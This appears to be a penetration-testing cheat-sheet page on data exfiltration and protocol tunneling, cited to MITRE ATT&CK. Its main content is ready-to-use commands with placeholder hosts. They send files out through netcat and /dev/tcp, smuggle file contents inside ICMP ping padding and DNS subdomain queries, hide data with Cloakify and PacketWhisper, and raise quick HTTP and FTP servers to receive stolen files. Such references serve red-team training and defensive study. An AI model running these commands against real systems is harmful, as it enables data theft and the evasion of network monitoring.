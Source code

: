 ```yaml
---
menu: Data Exfiltration
title: Data Exfiltration and Protocol Tunneling
weight: 600
---
```


# Exfiltration

## At a Glance

Data exfiltration,
also called data extrusion or data exportation,
is the unauthorized transfer of data
from a device or network.[^mitre-exfiltration]

## Encoding

### Base64

Linux encoding/decoding.

```sh
cat {{< param "war.tfile" >}} | base64 -w0
```

```sh
cat {{< param "war.tfile" >}} | base64 -d
```

{{<details "Parameters">}}
- `-w<col>`:  wrap encoded lines after `<col>` character (default 76).
- `-d`: decode data.
{{</details>}}

Windows encoding/decoding.

```ps
certutil -encode {{< param "war.tfile" >}} output.ext
```

```ps
certutil -decode {{< param "war.tfile" >}} output.ext
```

### Steganography

#### Cloakify [^cloakify]
```sh
python ./cloakify.py {{< param "war.tfile" >}} ./ciphers/topWebsites
```

Alternatively:

```sh
python ./cloakifyFactory
```

## File Transfer

#### wget (recursive)

```sh
wget -r {{< param "war.rhost" >}}:{{< param "war.lport" >}}
```
{{<details "Parameters">}}
- `-r`: Specify recursive download.
{{</details>}}

#### curl
```sh
curl {{< param "war.rhost" >}}/{{< param "war.tfile" >}} -o {{< param "war.tfile" >}}
```
{{<details "Parameters">}}
- `-o <file>`:  Write to `<file>` instead of stdout.
{{</details>}}

#### scp
```sh
scp user@{{< param "war.rhost" >}}:/{{< param "war.tfile" >}} .
```

#### nc

```sh
# Receiver
nc -nvlp {{< param "war.lport" >}} > {{< param "war.tfile" >}}
# Sender
nc -nv {{< param "war.lhost" >}} {{< param "war.lport" >}} < {{< param "war.tfile" >}}
```

{{<details "Parameters">}}
- `n`: don't do DNS lookups.
- `v`: prints status messages.
- `l`: listen.
- `p <port>`: local port used for listening.
{{</details>}}

#### `/dev/tcp` [^devref]
```sh
# Receiver
nc -nvlp {{< param "war.lport" >}} > {{< param "war.tfile" >}}
# Sender
cat {{< param "war.tfile" >}} > /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}
```

```sh
# Sender
nc -w5 -nvlp {{< param "war.lport" >}} < {{< param "war.tfile" >}}
# Receiver
exec 6< /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}
cat <&6 > {{< param "war.tfile" >}}
```

## Web Servers

### Python

```sh
python -m SimpleHTTPServer {{< param "war.lport" >}}
python3 -m http.server {{< param "war.lport" >}}
```

[Simple HTTP Server with File Upload](https://gist.github.com/touilleMan/eb02ea40b93e52604938)

### Ruby

```sh
ruby -run -e httpd . -p{{< param "war.lport" >}}
```

```sh
ruby -r webrick -e 'WEBrick::HTTPServer.new(:Port => {{< param "war.lport" >}}, :DocumentRoot => Dir.pwd).start'
```

### Perl

```sh
perl -MHTTP::Daemon -e '$d = HTTP::Daemon->new(LocalPort => {{< param "war.lport" >}}) or  +die $!; while($c = $d->accept){while($r = $c->get_request){+$c->send_file_response(".".$r->url->path)}}'
```

{{<note>}}
Install `HTTP:Daemon` if not present with: `sudo cpan HTTP::Daemon`
{{</note>}}

### PHP

```sh
php -S 127.0.0.1:{{< param "war.lport" >}}
```

### NodeJS

[http-server](https://www.npmjs.com/package/http-server)

```sh
npm install -g http-server
http-server -p {{< param "war.lport" >}}
```

[node-static](https://www.npmjs.com/package/node-static)

```sh
npm install -g node-static
static -p {{< param "war.lport" >}}
```

## FTP Servers

### Python

```sh
pip install pyftpdlib
python3 -m pyftpdlib -p {{< param "war.lport" >}}
```

### NodeJS

```sh
npm install -g ftp-srv
ftp-srv ftp://0.0.0.0:{{< param "war.lport" >}} --root ./
```

## Tunneling

### ICMP

Capture ICMP packets
with the following script:

{{<gist maxrodrigo a7a8c4bd7dfe64eb305b4c70dee70233 >}}

Generate ICMP packets from the file hexdump.

```sh
xxd -p -c 8 {{< param "war.tfile" >}} | while read h; do ping -c 1 -p $h {{< param "war.rhost" >}}; done
```

{{<details "Parameters">}}

`xxd`:
- `-p`: Output  in postscript continuous hexdump style. Also known as plain hexdump style.
- `-c <cols>`: Format `<cols>` octets per line.

`ping`:
- `-c <count>`: Stop after sending `<count>` `ECHO_REQUEST` packets.
- `-p`: You may specify up to 16 "pad" bytes to fill out the packet you send.
{{</details>}}

{{<note>}}
Match `xxd` columns (`-c 8`) with the data sliced (`packet[ICMP].load[-8:]`) in the script.
{{</note>}}

### DNS

Capture DNS packets data.

```sh
sudo tcpdump -n -i {{< param "war.liface" >}} -w dns_exfil.pcap udp and src {{< param "war.rhost" >}} and port 53
```

{{<note>}}
Remember to point the DNS resolution to where packages are being captured.
{{</note>}}

Generate DNS queries.

```sh
xxd -p -c 16 {{< param "war.tfile" >}} | while read h; do ping -c 1 ${h}.domain.com; done
```

Extract exfiltrated data.

```sh
tcpdump -r dns-exfil.pcap 2>/dev/null | sed -e 's/.*\ \([A-Za-z0-9+/]*\).domain.com.*/\1/' | uniq | paste -sd "" - | xxd -r -p
```

#### PacketWhisper [^packetwhisper]

Capture packages with `tcpdump`,
as described above.
Cloak, exfiltrate and decloak from the cli.

```sh
sudo packetWhisper.py
```

## Further Reading

- [Python HTTPS Simple Server](https://www.maxrodrigo.com/notes/python-https-simple-server.html)

[^mitre-exfiltration]: “Exfiltration, Tactic TA0010 - Enterprise.” MITRE ATT&CK®, https://attack.mitre.org/tactics/TA0010/.
[^cloakify]: TryCatchHCF. “TryCatchHCF/Cloakify: CloakifyFactory.” GitHub, https://github.com/TryCatchHCF/Cloakify.
[^devref]: “/Dev.” The Linux Documentation Project, https://tldp.org/LDP/abs/html/devref1.html.
[^packetwhisper]: TryCatchHCF. “PacketWhisper.” GitHub, https://github.com/TryCatchHCF/PacketWhisper.
